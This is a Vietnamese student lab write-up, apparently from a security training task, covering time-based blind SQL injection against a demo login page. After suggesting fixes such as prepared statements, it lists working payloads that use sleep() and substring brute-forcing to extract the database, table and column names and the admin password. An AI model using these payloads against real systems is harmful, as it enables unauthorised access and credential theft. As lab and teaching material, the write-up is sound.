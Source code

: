 # Link demo : https://github.com/l3mnt2010/task2_KCSC/tree/main/demo/timeBase
# Cách khắc phục :
Có thể khắc phục bằng cách tham số hóa đầu vào của thâm số người dùng truyền vào bằng một số cách như là:
-  $stmt = $conn->prepare("SELECT * FROM users WHERE username = ? AND password = ?");
  $stmt->bind_param("ss", $username, $password);
  $stmt->execute();
- Hoặc làm sạch đầu vào   $cleaned_username = mysqli_real_escape_string($conn, $username);
$cleaned_password = mysqli_real_escape_string($conn, $password);
- Và tìm hiểu các CVE của các phiên bản để tránh được lỗi này có thể xảy ra.




![Alt text](./imageTimeBase/image.png)

Ban đầu em vào giao diện có như này
![Alt text](./imageTimeBase/image-5.png)
- Sau đó em vào burpsuite để check việc đăng nhập

- em dùng timebase để tấn công và em nhận được phản hồi sau 5 giây\
Payload : admin'+or+(case+when+1%3d2+then+1+else+sleep(5)+end)%3d1+--+-
![Alt text](./imageTimeBase/image-7.png)

- Tiếp sao đó em dùng cách như union base để tìm tên database:
Payload : ' or (case when substring((select database() limit 0,1),§1§,1)='§a§' then sleep(1) else 1 end)=1 -- -

- với payload 1 là vị trí kí tự của tên database
- payload 2 là brute force
- Em sẽ lọc như phần tử nào lớn hơn 5s khi trả về kết quả

![Alt text](./imageTimeBase/image-8.png)
![Alt text](./imageTimeBase/image-9.png)
![Alt text]./imageTimeBase/(image-10.png)

![Alt text](./imageTimeBase/image-11.png)

- Những request trả ra lơn hơn 5s em sẽ lọc và nhận được tên của database là task2_kcsc
- Tiếp tục tương tự :
Payload :
' or (case when substring((select table_name from information_schema.tables where table_schema='task2_kcsc' limit 0,1),§1§,1)='§6§' then sleep(5) else 1 end)=1 -- -
Em nhận được tên bảng là users
- Payload :
' or (case when substring((select column_name from information_schema.columns where table_name='users' limit 2,1),§1§,1)='§p§' then sleep(5) else 1 end)=1 -- -
![Alt text](./imageTimeBase/image-13.png)
+ Em lấy được tên cột 
![Alt text](./imageTimeBase/image-12.png)

- Cuối cùng em sẽ brute-force password:
Payload : ' or (case when substring((select password from users limit 0,1),§1§,1)='§p§' then sleep(5) else 1 end)=1 -- -
![Alt text](./imageTimeBase/image-14.png)
- em nhận được password là hihi123
+ Vậy là em đã có được password của admin và sẽ tấn công cho những loại khác sau khi đăng nhập


